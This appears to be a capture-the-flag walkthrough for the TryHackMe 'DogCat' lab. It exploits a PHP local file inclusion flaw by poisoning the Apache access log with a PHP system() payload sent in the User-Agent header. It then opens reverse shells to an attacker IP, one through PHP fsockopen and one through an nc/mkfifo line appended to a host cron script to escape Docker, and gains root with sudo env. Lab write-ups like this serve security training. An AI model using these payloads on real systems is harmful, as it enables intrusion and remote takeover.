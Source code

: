 # DogCat (THM)

- https://tryhackme.com/room/dogcat
- March 16, 2023
- medium

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
```

### HTTP

- home page

```html
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
            </div>
</body>
</html>
```
- for `?view=dog`, it return the same page with addition content

```html
Here you go!
<img src="dogs/9.jpg" />
```
- it may be file inclusion
- test local file inclusion 
- `?view=dog/../index`
```html
 Here you go!<br />
<b>Fatal error</b>:  Cannot redeclare containsStr() (previously declared in /var/www/html/index.php:17) in <b>/var/www/html/index.php</b> on line <b>17</b><br />
```
- use `php base64 filter 
- `?view=php://filter/convert.base64-encode/resource=dog/../index`

![](screenshots/2023-03-16-15-28-32.png)

- convert from base64 and save it in `index.php` in local machine

```php
...
<?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
...
```
- if `ext` parameter is not included, `.php` extension will be added
- `view` parameter must contain dog or cat
- check the `access.log` file which is normally existed in `/var/log/apache2/access.log` (it is Apache server which is already known from nmap)
- `?view=dog/../../../../../../../var/log/apache2/access.log&ext`

![](screenshots/2023-03-16-15-40-29.png)

- User Agent also included in this file
- Inject User-Agent to execute `unix commands` later

```python
import requests

url = "http://10.10.231.251"
headers = {
    "User-Agent": "<?php system($_GET['cmd']);?>"
}
requests.get(url, headers=headers)
```
- then open at the browser with `?view=dog/../../../../../../../var/log/apache2/access.log&ext&cmd=id` or

```python
url_access_log = "http://10.10.231.251/?view=dog/../../../../../../var/log/apache2/access.log&ext"

r = requests.get(url_access_log, params={'cmd': 'id'})
print(r.text)
```

![](screenshots/2023-03-16-16-04-40.png)

## User Access

- try to add value of `cmd` parameter with reverse shell and success with php reverse shell payload

```python
params = {
    'cmd': 'php -r \'$sock=fsockopen("10.11.8.57",4242);exec("/bin/sh -i <&3 >&3 2>&3");\''
}
requests.get(url_access_log, params=params)
```

![](screenshots/2023-03-16-16-38-42.png)

- `flag1` is under `/var/www/html`
- there is no user directory under `/home` and no user with shell

![](screenshots/2023-03-16-16-42-23.png)

- it is inside docker

```sh
$ sudo -l
Matching Defaults entries for www-data on 085361b08df2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 085361b08df2:
    (root) NOPASSWD: /usr/bin/env
```


## Root Access

- from GTFObins

```sh
sudo env /bin/sh
```
- get root access

- need to find the flags

```sh
find / -name flag*.txt 2>/dev/null
```
- find next 2 flags and there is no fourth flag inside this docker container and need to escape from docker
- there are no network status checking tools
- there is some suspectious files under `opt`
- `backup.sh` and `backup.tar` file
- `backup.sh` file

```sh
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
- there is no `/root/container` inside this docker and may be it is from outside of the docker
- as we are now root for this docker and has write access on this file and add some reverse shell
- inside docker shell

```sh
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4243 >/tmp/f' >> backup.sh
``
- listen with nc at local machine at port 4243 and then execute this file

```sh
sh backup.sh
```

![](screenshots/2023-03-16-16-59-40.png)

- get next root account but it is outside docker